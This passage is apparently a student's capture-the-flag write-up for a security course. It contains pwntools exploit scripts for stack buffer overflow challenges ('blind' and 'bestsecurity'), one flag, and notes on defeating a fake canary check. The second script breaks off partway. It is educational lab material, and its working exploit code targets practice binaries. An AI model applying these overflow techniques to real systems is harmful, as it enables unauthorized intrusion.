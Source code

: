 
Script/Command used
------------------
```
from pwn import *
context.binary = './blind'
context.terminal = ['alacritty', '-e', 'sh', '-c']


crash = False

io = None
if crash:
    io = gdb.debug('./blind')
else:
    #io = process('./blind')
    io = remote('plzpwn.me', 2001)

io.recvline('.\n')

# From `objdump -D blind | grep win`:
# 080484d6 <win>:
target = 0x080484d6

# Check eip at crash
if crash:
    pattern = cyclic(512)
    io.sendline(pattern)
    pause()
    # saaa
    sys.exit()

exploit = 'A'*cyclic_find(r'saaa') + pack(target)
io.sendline(exploit)
io.interactive()
```

bestsecurity
===========================

Flag: `COMP6447{WH4T_I5_A_C4N4RY?}`

General overview of problems faced
-------------------------------------
- Reverse engineer functions to figure out what exactly this 'best security' measure is
- `checksec` yielded no answers, stack canary still disabled
- Culprit was a strncmp, which was comparing a variable on the stack to the 'canary' 1234

Script/Command used
------------------
```
from pwn import *
context.binary = './bestsecurity'
context.terminal = ['alacritty', '-e', 'sh', '-c']


crash = False

io = None
if crash:
    # 0x8048540 is the address of the instruction to call strncmp
    # by breaking here, we can check the args given to strncmp and cyclic check
    #script = 'b check_canary'
    script = 'b *0x8048540'
    io = gdb.debug('./bestsecurity', gdbscript=script)
else:
```